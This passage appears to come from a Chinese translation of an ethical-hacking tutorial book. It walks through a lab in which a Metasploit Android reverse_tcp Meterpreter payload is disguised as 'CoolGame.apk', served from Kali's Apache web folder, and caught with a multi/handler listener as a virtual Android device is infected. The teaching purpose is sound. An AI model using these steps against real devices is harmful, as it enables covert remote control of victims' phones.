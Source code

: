     这会创建一个形式为 APK 文件的`android/meterpreter/reverse_tcp`有效载荷，并将其直接保存到 Kali 的共享网页文件夹中。Metasploit 将响应几行输出，最后会显示类似以下内容：

    ```
    `--snip--`
    Payload size: 10080 bytes
    Saved as: /var/www/html/share/CoolGame.apk
    ```

1.  启动 Apache web 服务器服务，这样你就可以从你的 Android 虚拟机下载文件：

    ```
    msf6 > `sudo service apache2 start`
    ```

1.  为了验证 Kali web 服务器是否处于活动状态，打开 Firefox 并访问*localhost/share*。你应该能看到文件列表中的*CoolGame.apk*。

1.  在 Metasploit 终端窗口中输入这四个命令，设置监听器以处理传入的 Meterpreter 连接：

    ```
    msf6 > `use exploit/multi/handler`
    msf6 exploit(multi/handler) > `set PAYLOAD android/meterpreter/reverse_tcp` PAYLOAD => android/meterpreter/reverse_tcp
    msf6 exploit(multi/handler) > `set LHOST` `10.0.9.4`
    LHOST => 10.0.9.4
    msf6 exploit(multi/handler) > `exploit`
    ```

Metasploit 现在正在监听传入连接！

## 感染 Android 虚拟机

现在我们将下载木马应用并故意感染你的虚拟 Android 设备。切换回你的 Android 虚拟机并按照以下步骤操作：

1.  打开 Chrome 浏览器，在地址栏中输入 Kali 虚拟机的 IP 地址，后面加上`/share/`，例如`10.0.9.4/share/`，如图 9-3 所示。![f09003](img/f09003.png)
